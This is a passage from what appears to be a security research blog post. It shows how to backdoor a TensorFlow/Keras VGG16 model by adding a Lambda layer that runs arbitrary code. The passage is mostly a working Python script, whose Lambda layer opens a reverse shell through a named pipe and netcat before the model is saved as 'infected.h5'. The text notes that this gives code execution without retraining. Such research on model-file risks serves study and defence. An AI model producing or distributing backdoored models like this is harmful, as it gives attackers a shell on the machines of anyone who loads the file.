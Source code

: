 ![smart](smart.webp)

Now let's inject it and see if it still works as it should! 

```py
import tensorflow as tf

def exploit(x):
    import os
    os.system("rm -f /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc 127.0.0.1 6666 >/tmp/f")
    return x

lambdaLayer = tf.keras.layers.Lambda(exploit, name="output")

original = tf.keras.applications.vgg16.VGG16()
original.summary()

inp = original.input
original.layers.pop()

infected = tf.keras.models.Model(inp, lambdaLayer(original.layers[-1].output))

for layer in infected.layers:
    layer.trainable = False
    
infected.summary()
infected.save("infected.h5")
```

This script loads the VGG16 model from Keras and then embeds our malicious Lambda layer in the model. It is actually possible to embed a malicious layer in any Tensorflow machine learning model! However the model will not behave the same way as the original without first training it with the same data. Without the training we still achieve code execution, which is why I did not look further into making it more stealthy. 

In the future I am planning to research more about:
